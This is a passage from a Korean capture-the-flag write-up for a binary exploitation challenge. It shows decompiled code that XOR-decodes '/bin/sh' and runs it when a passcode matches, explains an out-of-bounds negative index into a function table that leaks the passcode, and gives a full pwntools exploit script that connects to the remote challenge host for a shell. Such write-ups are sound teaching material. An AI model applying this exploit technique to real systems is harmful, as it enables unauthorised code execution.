 ```python
}
```

```
.data:0000000000404010 conv            dq offset easy 
.data:0000000000404018                 dq offset hard
```

v4가 1이면 `easy(v3)`가 실행되고, v4가 2면 `hard(v3)`가 실행된다. 익스에서 `easy`는 중요하지 않다.

```C
unsigned __int64 __fastcall hard(__int64 a1)
{
  int i; // [rsp+14h] [rbp-2Ch]
  char path[8]; // [rsp+2Fh] [rbp-11h] BYREF
  char v4; // [rsp+37h] [rbp-9h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  strcpy(path, "<qz}<`{");
  v4 = 0;
  for ( i = 0; i <= 6; ++i )
    path[i] ^= 0x13u;
  if ( a1 == passcode )
  {
    puts("[+] WINNNN!");
    execve(path, 0LL, 0LL);
  }
  else
  {
    puts("[-] YOU ARE NOT WORTHY FOR A SHELL!");
  }
  change_passcode();
  return v5 - __readfsqword(0x28u);
}
```

``<qz}<`{`` 에서 XOR하는 것은 `/bin/sh` 문자열을 주지 않기 위해서로 보인다. `passcode`를 알 수 있으면 쉘을 딸 수 있다.

## 익스플로잇 설계

`main`의 v4가 long long int 형이므로 음수 입력이 가능하다. conv가 bss에 있으므로 음수 입력으로 `puts@got`에 도달할 수 있다. `passcode`도 bss에 있으므로 주소를 알 수 있다. v3에 `passcode` 주소를 입력하면 `passcode`를 알 수 있다. `hard`를 실행시켜 쉘을 땄다.

## dec.py

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./chall')
HOST = "2bed32f51bfbd4cf0f5b786d12cbf9b6.chal.ctf.ae"
p = remote(HOST, 443, ssl=True, sni=HOST)
e = ELF('./chall')

p.sendafter(b'> ', b'a')
p.sendafter(b'> ', str(((e.got['puts'] - e.sym['conv']) // 8) + 1).encode())
p.sendafter(b'> ', str(e.sym['passcode']).encode())
passcode = u64(p.recvn(8))
print(passcode)
#gdb.attach(p)
p.sendafter(b'> ', b'2')
p.sendafter(b'> ', str(passcode).encode())
p.interactive()
```